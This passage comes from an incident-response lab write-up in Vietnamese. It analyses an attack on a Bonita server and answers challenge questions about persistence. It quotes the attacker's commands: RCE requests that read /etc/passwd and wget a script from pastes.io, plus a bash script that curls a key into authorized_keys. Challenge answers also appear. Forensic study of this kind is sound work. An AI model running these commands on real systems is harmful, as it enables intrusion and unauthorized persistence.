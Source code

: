 - Sau đó gửi truy vấn để trích xuất các dữ liệu 
```
GET /bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd (đọc file /etc/passwd)


{"p":"0","c":"1","cmd":"cat /etc/passwd","out":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:102:105::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nsyslog:x:104:111::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:113::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:114::/nonexistent:/usr/sbin/nologin\nsshd:x:109:65534::/run/sshd:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nlandscape:x:111:116::/var/lib/landscape:/usr/sbin/nologin\nfwupd-refresh:x:112:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin\nec2-instance-connect:x:113:65534::/nonexistent:/usr/sbin/nologin\n_chrony:x:114:121:Chrony daemon,,,:/var/lib/chrony:/usr/sbin/nologin\nubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash\nlxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false\n","currentDate":"2023-01-19"}
```
- Ở 1 luồng khác, hacker lợi dụng rce để tải file xuống 
```
GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8
```

> pastes.io

#### Please provide the filename of the public key used by the attacker to gain persistence on our host.
- Truy cập đường dẫn pastes.io, ta thấy rằng có 1 file bash ở đây, chủ yếu lấy dữ liệu file hffgra4unv để lưu vô authorized_keys
```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```
> hffgra4unv

#### Can you confirmed the file modified by the attacker to gain persistence?
- Đã trình bày ở câu trên 
> /home/ubuntu/.ssh/authorized_keys
#### Can you confirm the MITRE technique ID of this type of persistence mechanism?
- Dựa vào trang [này](https://attack.mitre.org/techniques/T1098/004/) ta xác định được ID là T1098.004